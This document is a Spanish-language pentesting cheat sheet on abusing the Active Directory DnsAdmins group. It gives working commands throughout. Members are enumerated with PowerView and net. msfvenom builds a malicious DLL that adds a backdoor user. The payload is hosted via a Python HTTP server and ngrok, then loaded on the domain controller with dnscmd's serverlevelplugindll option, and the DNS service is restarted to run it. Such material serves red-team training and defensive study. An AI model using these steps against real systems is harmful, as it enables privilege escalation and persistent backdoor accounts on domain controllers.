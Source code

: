# DNS Admins 

Tags: #AD #DNSAdmins #DLL #Windows 

El grupo `DnsAdmins` en Active Directory es un grupo especial que tiene privilegios administrativos sobre el servicio DNS del dominio. Si un atacante logra comprometer una cuenta de usuario que es miembro de este grupo, podría realizar una serie de ataques maliciosos, aprovechando los privilegios elevados sobre la infraestructura de DNS.

```bash 
1. Modificación de Registros DNS: El atacante podría cambiar los registros DNS para redirigir el tráfico de red legítimo a sistemas bajo su control. Esto se podría utilizar para realizar ataques de hombre en el medio, capturar credenciales, distribuir malware, o para desacreditar la infraestructura de red de una organización.
2. Acceso a la Zona de Transferencia: Podría obtener acceso a la transferencia de zona DNS y, por tanto, tener una lista completa de todos los registros DNS en el dominio, lo que podría ser utilizado para mapear la red interna de una organización y planear ataques futuros.
3. Configurar Redirecciones DNS: Establecer redirecciones maliciosas, conocidas como DNS hijacking, para capturar datos de usuarios que creen estar accediendo a sitios legítimos.
4. DNS Túnel: Establecer un canal encubierto para exfiltrar datos de la red de manera discreta utilizando protocolo DNS.
5. DNS Poisoning: Podría envenenar la caché DNS para responder a solicitudes legítimas con respuestas falsas, enviando a los usuarios a direcciones IP controladas por él.
6. Ejecución de Código Remoto: Un vector de ataque particularmente peligroso es la posibilidad de ejecutar código arbitrario en el contexto del servicio DNS. Esto se debe a que, en algunas versiones de Windows, los miembros del grupo `DnsAdmins` pueden cargar DLLs arbitrarias en el proceso del servicio DNS. Esto podría permitir al atacante ejecutar código arbitrario con privilegios de sistema, posiblemente permitiéndole escalar privilegios en el servidor DNS o en otros sistemas.
7. Establecimiento de Persistencia: Una vez que tiene control sobre el DNS, el atacante podría establecer mecanismos de persistencia en la red, dificultando su detección y eliminación.
8. Detección de Servicios de Seguridad: El control sobre el DNS también puede ser utilizado para mapear servicios de seguridad como IDS, IPS y firewalls, planificando cómo evadirlos.
9. Disrupción del Servicio: Puede causar una negación de servicio al desconfigurar el DNS o apagarlo por completo.
10. Manipulación de Trusts: En entornos con trusts de AD configurados, la manipulación de DNS puede ser utilizada para subvertir esos trusts y posiblemente extender el compromiso a otros dominios.
```

## Utilizando PowerView.ps1

```powershell 
❯ Get-NetGroupMember -Identity "DnsAdmins" -Recurse   # Obtener los miembros del grupo 'DNSAdmins'
```

## Utilizando NET

```powershell
❯ net user dnsadmin.user /domain   # Muestra info datallada de inicio de sesion, cambio de password, etc... del usuario que es miembro del grupo "DNSAdmins" 
```

## Generando una DLL maliciosa

* [DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL/tree/master)
* [DNS-exe-persistance](https://github.com/dim0x69/dns-exe-persistance)

```powershell
❯ msfvenom -p windows/x64/exec cmd='net user vikingo P4ssw0rd /add' -f dll -o ADModule.dll

	# p = Payload a cargar 
	# cmd = Comando a ejecutar (Añadir un usuario 'vikingo' y su password)
	# f = Formato del payload 
	# o = Output del payload 
```

```bash 
❯ python3 -m http.server 80    # Compartimos el archivo 
❯ ngrok http 80                # Compartimos el puerto 'http' con el recurso compartido a nivel público  
```

## Cargando una dll maliciosa con dnscmd

```powershell
# Estos comandos se deben ejecutar en el DC

# Impersonando al usuario dnsadmin.user
❯ runas /netonly /user:spartancybersec.corp\dnsadmin.user "powershell.exe"   # Ejecutara una ventana de 'Powershell'

Nota: Aunque se ingrese la password mal se abrirá el 'Powershell' por lo que se debe tener cuidado al ingresarla para que funcione de manera correcta 


❯ hostname   
❯ dnscmd First-DC /config /serverlevelplugindll \\10.0.1.50\shared\ADModule.dll

	# Ruta del archivo donde se encuentra la dll maliciosa 
```

```powershell
❯ sc.exe \\First-DC stop dns      # Detener el servicio de DNS
❯ sc.exe \\First-DC start dns     # Reiniciar el servicio de DNS
❯ net user vikingo                # Verificar si se creo el usuario que esta en la dll maliciosa 
❯ net user vikingo /domain 
```

```powershell
# En los registros se puede ver el usuario

❯ Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\InternalParameters 
```
